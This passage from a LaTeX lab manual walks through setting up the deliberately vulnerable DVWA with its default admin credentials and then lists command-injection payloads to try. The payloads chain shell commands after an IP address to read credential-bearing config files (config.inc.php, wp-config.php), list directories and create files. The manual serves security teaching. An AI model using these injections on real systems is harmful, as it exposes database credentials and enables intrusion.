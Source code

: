 Next: the setup of DVWA database

http://$ServerIP$/dvwa/setup.php


Click the \emph{Create/Reset Database}

Log into \gls{DVWA}
http://$ServerIP$/dvwa/
Username : admin
Password : password

The main page of \gls{DVWA} should appear (Figure~\ref{Damn Vulnerable Web Application - default page})

Change \gls{DVWA} Security level to low (Figure~\ref{Setting DVWA Security Level to Low})
\begin{figure}[H] 
 \centering 
 \texttt{[image: DVWA\_Main\_Page.pdf]}
 \rule{30em}{0.5pt}  
 \caption{Damn Vulnerable Web Application - default page} 
 \label{Damn Vulnerable Web Application - default page} 
\end{figure}

\begin{figure}[H] 
 \centering 
 \texttt{[image: dvwa\_security\_low.pdf]}
 \rule{25em}{0.5pt}  
 \caption{Setting DVWA Security Level to Low} 
 \label{Setting DVWA Security Level to Low} 
\end{figure}




\subsection{Testing vulnerabilities}
For understanding a defence of web application a basic offensive knowledge and skills are needed. However, this lab focused on defensive methods and will not provide knowledge about different \gls{OWASP} top ten. 

\colorbox{red}{\parbox{\textwidth}{DISCLAIMER: Do not use followed methods on any computer except lab computer and only for learning propose!}}

\subsubsection{Common vulnerabilities}

Try the following vulnerabilities (find out how)

\begin{verbatim}
8.8.8.8; sed 's/</UUUU/' ../../config/config.inc.php
#Find out directory and file structure of \gls{DVWA}
8.8.8.8; ls -l
8.8.8.8; ls -l ../../
8.8.8.8; sed 's/<//'  ../../../../wordpress/wp-config.php
8.8.8.8; touch /var/tmp/new_file.txt
8.8.8.8; ls /var/tmp/
; grep session.cookie_httponly /etc/php5/apache2/php.ini
\end{verbatim}

